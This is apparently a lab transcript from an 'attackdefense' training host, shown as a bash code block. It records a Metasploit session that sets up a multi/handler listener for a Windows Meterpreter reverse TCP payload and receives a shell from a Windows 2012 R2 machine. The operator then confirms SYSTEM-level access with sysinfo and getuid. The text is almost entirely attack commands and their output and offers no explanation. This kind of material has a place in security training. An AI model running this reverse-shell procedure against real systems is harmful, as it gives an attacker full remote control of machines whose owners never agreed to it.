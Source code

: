 
```bash
root@attackdefense:~# msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf6 exploit(multi/handler) > set LHOST eth1
LHOST => 10.10.16.2
msf6 exploit(multi/handler) > set LPORT 4433
LPORT => 4433
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4433 
[*] Sending stage (175174 bytes) to 10.0.27.39
[*] Meterpreter session 1 opened (10.10.16.2:4433 -> 10.0.27.39:49323) at 2023-07-04 07:43:16 +0530

meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 10.0.27.39 - Meterpreter session 1 closed.  Reason: User exit
msf6 exploit(multi/handler) > sessions

Active sessions
===============

No active sessions.
```
